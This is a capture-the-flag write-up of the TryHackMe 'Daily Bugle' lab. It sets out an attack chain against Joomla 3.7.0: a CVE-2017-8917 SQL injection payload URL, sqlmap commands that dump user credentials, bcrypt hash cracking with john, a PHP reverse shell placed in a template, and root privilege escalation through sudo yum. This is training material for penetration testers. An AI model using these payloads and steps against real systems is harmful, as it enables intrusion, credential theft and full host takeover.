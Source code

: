 ### THM - Daily Bugle

Link to the room: [Daily Bugle](https://tryhackme.com/room/dailybugle)

Difficulty: Hard 

"Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum." - THM

#### Recon

From the introduction of this room, we know that the host is running Joomla CMS. We can do some basic enum on the website to see what we can find.

![wappalyzer](img/wappalyzer.png)

Checked wappalyzer and we can confirm that the website is running Joomla CMS. Let's try to find the version of Joomla. I made a script to find the version of Joomla. You can find it [here](joomla_version.py).

![joomla_version](img/joomla_version.png)

Or you could just pull the version from joomla.xml file. Using curl

 ```curl http://{URI}/administrator/manifests/files/joomla.xml | grep '<version>' ```

![joomla_version_2](img/joomla_version_2.png)

Now we know that the version of Joomla is 3.7.0. Let's try to find the CVE for this version. 

[https://www.cvedetails.com/cve/CVE-2017-8917/](https://www.cvedetails.com/cve/CVE-2017-8917/)

Vulnerability Details : CVE-2017-8917	

"SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors."

Great! We found a CVE for this version of Joomla.

Let's run nmap to see what ports are open on the host. Since this is not a black box, let's practice to not be noisey. 

```sudo nmap -v -sS {IP}```

![nmap1](img/nmap1.png)

 Now, Let's try to exploit it.

#### Exploit

After some research, I found that there are multiple ways to exploit this. By using [python script](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) by stefanlucas, metasploit module, and sqlmap.


**Using the python script.**

![python_script](img/python_script.png)


**Using metasploit module.**

We will be using ```exploit/unix/webapp/joomla_comfields_sqli_rce```

![metasploit_1](img/metasploit_1.png)

![metasploit_2](img/metasploit_2.png)

And we got an unknown error message. Let's look at the source code.

![msf_problem_2](img/msf_problem_2.png)

The module expects some return value after SQLi. Let's look at what request is being sent.

![msf_problem_3](img/msf_problem_3.png)

We can see that the module is sending this sql query ```(UPDATEXML(2170,CONCAT(0x2e,0x#{start_h},(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x#{fin_h}),4879))```


Let's try to send this request manually. Our request will look like thie ```http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(2170,CONCAT(0x2e,0x1973508a80,(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x4590478a88),4879))```

Based on the sql query in the request, it looks like it is trying to use TO_BASE64 to convert the table name to base64. However we get "FUNCTION joomla.TO_BASE64 does not exist" error.

![msf_problem_4](img/msf_problem_4.png)

Upon further research, I found that TO_BASE64 is a function in MySQL that was introduced in version 5.6.10. This host is using MariaDB which is a fork of MySQL and I'm assuming that it is using an older version of MariaDB.

![msf_problem_5](img/msf_problem_5.png)

This would explain why we are getting the error. It was probably done on purpose to prevent using metasploit module which would resulted in a shell in one go. OR we can fix this msf module. Let's try to use sqlmap to exploit this.

**Using sqlmap.** [https://www.exploit-db.com/exploits/42033](https://www.exploit-db.com/exploits/42033)

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]```

![sqlmap_1](img/sqlmap_1.png)

![sqlmap_2](img/sqlmap_2.png)

Then we can retrieve the tables with this command...

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla --tables```

![sqlmap_3](img/sqlmap_3.png)

Then we can retrieve the columns with this command...

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla -T “#__users” --columns```

![sqlmap_4](img/sqlmap_4.png)

Then we can dump the data with this command... In this case, we only want to dump the username and password.

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla -T “#__users” -C username,password --dump```

![sqlmap_5](img/sqlmap_5.png)

*NOTE - While I was writing this the host timed out so I have to re-launch the host. Notice different host IP* 

Now we have the hash password for the user "jonah". Let's try to crack the hash with JohnTheRipper. I will be using rockyou.txt wordlist and hashid module from hashcat to identify the hash type.

```hashid -m {hash}```

```john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt {HASH_FILE}```

![hash2file](img/hash2file.png)

![hash_type](img/hash_type.png)

![john](img/john.png)

Now that we have the password, let's try to login to the admin panel. According to [Joomla documentation](https://docs.joomla.org/Administrator_(Application)), the default path to access the admin panel is ```/administrator```. Let's try it so we dont have to FUZZ the path.

![joomla_panel](img/joomla_panel.png)

Now we can access the admin panel. Let's try to upload a reverse shell. we will be using this [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by pentestmonkey. We will be editing a page from a template with the reverse shell code. In this case, we will use index.php page in the beez3 template.

![template](img/template.png)

![index_edited](img/index_edited.png)

Let's start a netcat listener and access the index page by clicking template preview.

![shell1](img/shell1.png)

Great!! Now we have a shell.

#### Privilege Escalation

Let's import python pty to get a better shell ```python -c 'import pty;pty.spawn("/bin/bash")'``` and do some enumeration. See what we can find.

![enum1](img/enum_1.png)

![enum2](img/enum_2.png)

![configuration_php](img/configuration_php.png)

After some enum, we found a configuration file that contains a password to the database. Let's try to use this password to switch to host user.

![jameson](img/jameson.png)

The password is indeed for the user "jjameson". Let's get user flag and try to escalate privilege. Let's check ```sudo -l``` to see what we can run as root.

![sudo_l](img/sudo_l.png)

Perfect! We can run yum as root. Let's check gtfobins for yum. [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/) We can see that we can use yum to run a shell as root and get root flag.

![root_shell](img/root_shell.png)

![root_flag](img/root_flag.png)


Thank you for reading. I hope you enjoyed this writeup. 



#### Resources
https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website

https://mariadb.com/kb/en/mariadb-1005-release-notes/

https://database.guide/6-ways-to-check-your-mariadb-version/

https://docs.joomla.org/Administrator_(Application)

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

https://gtfobins.github.io/gtfobins/yum/